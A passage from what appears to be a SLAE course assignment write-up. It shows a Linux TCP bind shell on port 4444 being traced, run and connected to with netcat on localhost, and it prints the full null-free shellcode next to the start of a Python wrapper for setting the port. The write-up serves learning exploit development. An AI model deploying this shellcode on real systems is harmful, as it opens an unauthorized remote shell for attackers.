 ```bash
osboxes@osboxes:~/Downloads/SLAE$ strace -e socket,bind,listen,accept,dup2,execve ./shell_bind_tcp
execve("./shell_bind_tcp", ["./shell_bind_tcp"], [/* 21 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 22) = 0
listen(3, 1)                            = 0
accept(3, 
```

The compiled ELF binary is executed:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp 

```

A separate terminal demonstrating a successful bind connection and shell on the local host (via port 4444):

```bash
osboxes@osboxes:~$ netstat -antp | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      3709/shell_bind_tcp
osboxes@osboxes:~$ nc -nv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

#### Configurable Port (Customize Shellcode) 
------

Objdump is used to extract the shellcode from the TCP bind shell in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xf6\x56\x6a\x01\x6a\x02\xb0\x66\xb3\x01\x89\xe1\xcd\x80\x89\xc2\x56\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1
\x6a\x16\x51\x52\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x56\x56\x52\xb0\x66\xb3\x05\x89
\xe1\xcd\x80\x89\xc2\x31\xc9\xb1\x03\x89\xd3\x49\xb0\x3f\xcd\x80\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69
\x89\xe3\x50\x89\xc2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Once the raw shellcode has been extracted, the last requirement to complete the assignment is to ensure the port number is easily configurable. 

This can be achieved by utilising a Python wrapper which takes a standard 2 byte port number, and checks the chosen port number to ensure the custom port is valid.

The shellcode variable defined within the script includes the original hardcoded shellcode for port 4444:

```python
#!/usr/bin/python

# Filename: shell_bind_tcp_wrapper.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate dynamic shellcode, configurable bind port number
# Usage: python shell_bind_tcp_wrapper.py <port>

import socket
import sys

shellcode = """
\\x31\\xc0\\x31\\xdb\\x31\\xf6\\x56\\x6a\\x01\\x6a\\x02\\xb0\\x66\\xb3\\x01\\x89\\xe1\\xcd\\x80\\x89\\xc2
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1